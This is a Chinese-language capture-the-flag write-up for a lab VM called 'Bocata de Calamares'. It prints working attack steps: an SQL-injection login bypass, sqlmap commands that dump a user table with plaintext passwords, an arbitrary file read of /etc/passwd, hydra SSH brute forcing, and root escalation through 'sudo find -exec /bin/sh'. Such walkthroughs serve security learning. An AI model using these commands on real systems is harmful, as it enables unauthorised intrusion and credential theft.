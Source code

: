 # Bocata de Calamares

2025.02.25 https://thehackerslabs.com/bocata-de-calamares/

[video](https://www.bilibili.com/video/BV1gzPae3EuZ/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 web 首页，底部发现邮箱 indurandor@fkn.com 。发现 http://192.168.5.40/sqli.php 的一个页面，讲的是 sql 注入，可能暗示这个靶机存在 sql 注入。

目录扫描发现 /login.php 和 /admin.php 页面，首先看登陆页面，尝试 sql 注入，就按照 http://192.168.5.40/sqli.php 底部提示的注入方式进行输入，登陆成功：

```
Usuario: admin
Contraseña: ' OR '1'='1
```

使用 sqlmap 跑 form 中的密码字段，得出数据库信息：

```
sqlmap -u http://192.168.5.40/login.php --data='alias=admin&password=1*' --batch --dbs

[*] information_schema
[*] performance_schema
[*] php

sqlmap -u http://192.168.5.40/login.php --data='alias=admin&password=1*' --batch -D php --tables

sqlmap -u http://192.168.5.40/login.php --data='alias=admin&password=1*' --batch -D php -T usuarios --dump

+----+------------+---------------------+---------+--------------+
| id | alias      | email               | nombre  | contraseña   |
+----+------------+---------------------+---------+--------------+
| 1  | adminPrinc | admin@localhost.com | admin   | 123456       |
| 2  | Pep100     | pepe@email.com      | pepe    | qwertyuiop   |
| 3  | Jaime_P    | jaime@email.com     | jaime   | jaime        |
| 4  | Richard    | Ricardobc@gmail.com | Ricardo | qwertyu      |
+----+------------+---------------------+---------+--------------+
```

使用得到的用户名和密码爆破 ssh，但是都不对。

在看管理员页面中有一个代办事项页面 http://192.168.5.40/todo-list.php 里面有一项：

```
我创建了一个新页面，以便能够读取内部服务器文件，每天我都是更好的程序员。我也已经编码了基于名称的64，因此没人能找到它（Lee_archivos）。
```

对后面的单词进行 base64，要带换行符，否则 base64 后是 bGVlX2FyY2hpdm9z 页面爆 404：

```
echo lee_archivos|base64
bGVlX2FyY2hpdm9zCg==
```

访问文件：http://192.168.5.40/bGVlX2FyY2hpdm9zCg==.php 弹出读取文件的页面，读取 /etc/passwd 发现：

```
root:x:0:0:root:/root:/bin/bash
tyuiop:x:1000:1000:tyuiop:/home/tyuiop:/bin/bash
superadministrator:x:1001:1001:,,,:/home/superadministrator:/bin/bash
```

同时在源代码处得到提示：

```
<!-- Tengo que limitar los archivos que se pueden ver, al menos hasta que los usuarios tengan unas contraseñas más robustas -->
<!-- Si alguien leyera el archivo donde se encuentran los usuarios y usara la herramienta hydra para atacar nuestro servicio ssh... Bueno, mañana me encargare de ello -->
```

提示 hydra 进行 ssh 爆破，使用 rockyou 对这 2 个用户名进行爆破，得到了 superadministrator 的登陆密码 princesa 进行登陆。

先拿到 flag:

```
superadministrator@thehackerslabs-bocatacalamares:~$ cat flag.txt
c3VkbyAtbAo=
```

解码后是 sudo -l , 执行后发现 (ALL) NOPASSWD: /usr/bin/find 可以直接拿到 root 权限：

```
sudo find . -exec /bin/sh \; -quit

# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
S0Y_UN_h4K3R
```
